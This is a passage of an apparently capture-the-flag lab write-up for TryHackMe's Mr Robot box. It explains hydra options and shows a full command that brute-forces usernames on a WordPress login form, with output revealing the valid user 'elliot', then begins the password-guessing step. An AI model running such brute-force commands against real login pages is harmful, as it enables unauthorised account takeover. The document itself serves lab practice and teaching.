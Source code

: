![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Mr_Robot_CTF/images/invalid_usr.png)
\
Let's run hydra now!! The various options are\
1. -T : Threads. Default set to 16. One can increase it to reduce fuzz time. I set it to 100.
2. -L : List of username to enumerate. Will be injected at the _^USER^_ handle.
3. -p : Single entry replaced at _^PASS^_ handle.
4. -o : output to a particuar file
5. http-post-form : The module for fuzzing post forms. The following string contains three part - (Login_Page dir:Post_Parameters:Invalid_Result). So, we provide the needed and we can use the enumerated invalid response as third field.

```bash
$ hydra -T100 -f -L www/downloads/cred.dic -p passwd -o userenum.txt 10.10.87.211 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.87.211%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```
\
**RESULT**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-12 00:01:32
[WARNING] reducing maximum tasks to MAXTASKS (64)
[DATA] attacking http-post-form://10.10.87.211:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.87.211%2Fwp-admin%2F&testcookie=1:F=Invalid username.
[80][http-post-form] host: 10.10.87.211   login: elliot   password: passwd
[STATUS] attack finished for 10.10.87.211 (valid pair found)	
```
We find a valid user as **elliot**. Now we can enumerate for the password.\
We do it one after the other to save us loads of time. If we fuzzed both together, it would generate loads of invalid creds and to track invalid status would also be a pain.\
Like earlier, **invalid passwords** can be seperated in two ways. First, we can use the invalid password reponse returned. Better is to use the _STATUS_CODE : 302_ as on valid credentials the site will redirect to the /wp-admin page.
Let's run hydra now.
We use some different options like
1. -l : to supply the enumerated username - _elliot_.
2. -P : supply a dictionary of possible passwords. - _fsocity.dic_